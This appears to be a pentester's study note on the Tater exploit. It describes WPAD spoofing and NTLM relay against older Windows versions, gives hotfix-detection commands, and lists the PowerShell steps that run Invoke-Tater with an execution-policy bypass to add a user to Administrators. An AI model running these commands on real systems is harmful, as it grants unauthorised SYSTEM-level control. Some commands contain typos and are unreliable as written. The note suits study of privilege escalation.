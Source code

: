 - This trick **was patched starting in Windows 10**, but it still works on **Windows 7**, **Server 2008**, and some **Server 2012** builds.

Tater exploits a Windows **NTLM relay + NBNS spoofing vulnerability** by:
1. **Spoofing WPAD (Web Proxy Auto-Discovery Protocol)** to redirect SYSTEM traffic.
2. Triggering **Windows Defender** (or other SYSTEM-level services) to fetch a proxy auto-config script (`wpad.dat`).
3. SYSTEM process sends **HTTP → SMB request** to `localhost`.
4. Tater **relays that SMB auth token** to itself, impersonates SYSTEM.
5. Executes a command as SYSTEM (in your case: adding user `user` to `Administrators`).


# Possible Detection
---
- `wmic qfe | findstr 3164038`
- `windows_exploit_suggester.pu`
# Exploitation
---
- `powershell.exe -nop -ep bypass`
- `. .\Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net loc algroup administrators user /add"`
	- ![[Pasted image 20250419041359.png]]